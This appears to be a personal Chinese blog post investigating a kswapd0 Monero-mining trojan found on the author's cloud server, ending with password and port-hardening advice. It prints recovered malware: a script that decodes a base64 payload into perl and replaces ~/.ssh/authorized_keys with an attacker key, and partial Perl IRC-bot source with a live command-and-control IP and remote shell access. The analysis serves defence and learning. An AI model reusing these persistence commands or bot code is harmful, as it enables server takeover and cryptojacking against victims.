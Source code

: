 ```yaml
---
title: "Kswapd0挖矿病毒记录"
date: 2022-03-07
draft: false
---
```


# kswapd0 挖矿病毒调查

## 背景

![Alt](qq_pic_merged_1646629081866.jpg)

3 月 6 日收到了腾讯云的异地异常登入报告，马上又收到了检测出木马的报告

![Alt](qq_pic_merged_1646629112550.jpg)

马上怀疑是服务器被植入了木马程序，但是时间比较晚了，先把服务器关机了然后睡觉

我也没有急着重装系统，有点贪心，想看看木马长什么样，也顺便学习一下怎么清理木马程序，怎么分析受损情况，毕竟我现在是一个个人的服务器还没有对外提供服务，可以随便重装系统，但是如果是一个网站的服务器那么肯定是不能随便重装的。

但是这个木马非常狡猾，我 3 月 6 日一天也没有找出来，也请了网安的同学来帮忙，外加腾讯给我的报错文件，我什么没有找到，一切看起来都非常正常，各种日志都没有一点痕迹连操作记录都没有，然后我就又把服务器开着等了一天。

![Alt](qq_pic_merged_1646629166670.jpg)

## 出现异常

很快，第二天凌晨又被警告异地登入了，但是我当时还在睡觉没处理，早上起来一开服务器发现问题大了。

![Alt](QQ图片20220307131114.jpg)

![Alt](QQ图片20220307131210.png)

## 开始调查

有个程序把我的cpu直接占满了，我知道它出现了，我直接 kill 了这个程序，然后在通过查看系统的定期任务找到了它的文件，应该是只有部分了，它的很多安装步骤应该是被自己清理掉了。

![Alt](Snipaste_2022-03-07_10-40-46.png)

很明显它有一些定时任务，而且我每一次开机都会更新一些木马的程序，非常难找，而且输出全部重定向到了空，所以没有运行日志，当然也它没有很过分的写 shell 反弹，否在我恐怕也不能直接发现这些定期运行的脚本了。

然后根据上面运行的脚本目录，我找到了它的一些文件

![Alt](Snipaste_2022-03-07_10-42-11.png)

![ALt](Snipaste_2022-03-07_10-42-35.png)

![Alt](Snipaste_2022-03-07_10-42-55.png)

![Alt](Snipaste_2022-03-07_10-44-39.png)

![Alt](Snipaste_2022-03-07_10-46-04.png)

![Alt](Snipaste_2022-03-07_10-51-52.png)

里面有很多脚本程序，比如启动挖矿程序，为了躲避产生日志的脚本，还有一些判断系统硬件的，还有脚本杀死别的挖矿软件……，还有删除一些文件的（所以应该丢失了不少关键文件）

当然最重要的还是要看一下挖矿程序(省略)

```shell
#!/bin/sh
nohup ./stop>>/dev/null &
sleep 5
echo "ZXZhbCB1bnBhY2sgd......" | base64 --decode | perl
cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr">>.ssh/authorized_keys && chmod -R go= ~/.ssh
```

有一个用 `perl` 写的程序还有一个 `ssh` 远程登入

因为是 `base64` 压缩，所以通过解码并且将 `perl` 加入输出命令得到了源码（部分）

```perl
my $processo = 'rsync';

$servidor='45.9.148.99' unless $servidor;
my $porta='443';
my @canais=("#007");
my @adms=("polly","molly");
my @auth=("localhost");

my $linas_max=6;
my $sleep=3;

my $nick = getnick();
my $ircname = getnick();
my $realname = (`uname -a`);

my $acessoshell = 1;
my $prefixo = "! ";
my $estatisticas = 0;
my $pacotes = 1;

my $VERSAO = '0.2a';

$SIG{'INT'} = 'IGNORE';
$SIG{'HUP'} = 'IGNORE';
$SIG{'TERM'} = 'IGNORE';
$SIG{'CHLD'} = 'IGNORE';
$SIG{'PS'} = 'IGNORE';

use IO::Socket;
use Socket;
use IO::Select;
chdir("/");
$servidor="$ARGV[0]" if $ARGV[0];
$0="$processo"."\0";
my $pid=fork;
exit if $pid;
die "Problema com o fork: $!" unless defined($pid);

my %irc_servers;
my %DCC;
my $dcc_sel = new IO::Select->new();

sub getnick {
  return "x".int(rand(9000)).int(rand(9000));
}


sub getident {
  my $retornoident = &_get("http://www.minpop.com/sk12pack/idents.php");
  my $identchance = int(rand(99000));
  if ($identchance > 30) {
     return $nick;
  } else {
     return $retornoident;
  }
  return $retornoident;
}

sub getname {
  my $retornoname = &_get("http://www.minpop.com/sk12pack/names.php");
  return $retornoname;
}

sub getident2 {
        my $length=shift;
        $length = 3 if ($length < 3);

        my @chars=('a'..'z','A'..'Z','1'..'9');
        foreach (1..$length)
        {
                $randomstring.=$chars[rand @chars];
        }
        return $randomstring;
}
......

```

其中有一个很明显的 ip 地址 `45.9.148.99` 通过 `IP` 地址定位，发现是在荷兰，臭名昭著~

![Alt](Snipaste_2022-03-07_12-41-06.png)

还有一个主文件 `kwsapd0` 但是是经过特殊加密的，暂时不会解码的手段，不过根据网上的查询多半是 `XMRig` 编译的 `Linux` 平台**门罗币**挖矿木马了。

这次的木马调查也只能到此结束了，后面深入的事情也不是我有能力去做的了，只是很讨厌这种行为，通过木马挖矿就是小偷行为，偷别人的算力，非常可耻！

## 总结

自己的服务器要小心，不要被别人拿去白打工了，密码最好复杂一点，各个用户的都要复杂一点，因为不是 `sudo`用户也有可能被入侵，密码最好定期跟换，对于端口开放要谨慎，要限制访问 `IP`。

这次的木马时间算是给了我一个教训吧，辛亏服务器内数据不多，损失也不算大，但是以后还是要多加小心。
